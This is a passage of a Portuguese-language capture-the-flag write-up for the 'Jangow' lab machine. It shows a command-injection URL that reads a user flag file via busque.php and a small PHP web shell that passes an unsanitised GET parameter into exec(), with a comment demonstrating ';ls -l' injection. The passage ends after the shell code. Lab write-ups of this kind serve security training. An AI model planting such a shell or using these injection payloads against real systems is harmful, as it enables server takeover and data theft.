 

<h2>⇒ (Exploração/Ataque) </h2> 

![alt text](https://github.com/jandercalmeida/jangow/blob/main/images/url_expl.png)

Flag User:<br>
![alt text](https://github.com/jandercalmeida/jangow/blob/main/images/flag_user.png)


http://jangow/site/busque.php?buscar=cat%20/home/jangow01/user.txt


Listando o conteúdo do diretório, foi encontrado um arquivo “config.php” com possíveis credenciais:
![alt text](https://github.com/jandercalmeida/jangow/blob/main/images/list_dir.png)



Para tentar ler este arquivo:

Criar um arquivo shell.php:

~~~
<?php
// Para usar use:
// http://siete.com.br/arquivo1.php?host=www.google.com.br;ls -l

exec("ping -c 4 " . $_GET['host'], $output);
echo "<pre>";
print_r($output);
echo "</pre>";
?>
~~~
